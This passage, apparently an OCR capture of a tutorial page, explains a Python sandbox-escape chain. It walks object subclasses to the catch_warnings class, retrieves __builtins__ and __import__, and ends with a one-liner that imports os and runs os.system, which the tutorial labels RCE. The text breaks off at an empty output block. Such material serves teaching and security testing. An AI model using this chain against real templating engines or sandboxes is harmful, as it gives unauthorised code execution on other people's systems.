    python
    
    Code kopieren
    
    `y()._module.__builtins__`
    
    This accesses the built-in objects from the `warnings.catch_warnings` class.
    
    **Output Example:**
    
    bash
    
    Code kopieren
    
    `{'__name__': 'builtins', ... '__import__': <built-in function __import__>, ...}`
    
6. **Finding the Import Function**
    
    python
    
    Code kopieren
    
    `z = y()._module.__builtins__ for i in z:     if i.find('import') > -1:         print(i, z[i])`
    
    This finds and prints the built-in `__import__` function.
    
    **Output:**
    
    python
    
    Code kopieren
    
    `__import__ <built-in function __import__>`
    

### Leveraging the Import Function for RCE (Remote Code Execution)

This is a more advanced and potentially dangerous step. It demonstrates how to dynamically import the `os` module and execute system commands from a string object.

1. **Using the Import Function**
    
    python
    
    Code kopieren
    
    `''.__class__.__mro__[1].__subclasses__()[215]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')`
    
    This one-liner does the following:
    
    - `''.__class__.__mro__[1].__subclasses__()`: Gets the subclasses of `object`.
    - `[215]`: Accesses the `catch_warnings` class.
    - `()._module.__builtins__['__import__']('os')`: Uses the `__import__` function to import the `os` module.
    - `.system('echo RCE from a string object')`: Executes the `echo` command using `os.system`.
    
    **Output:**
    
    csharp
    
    Code kopieren
    
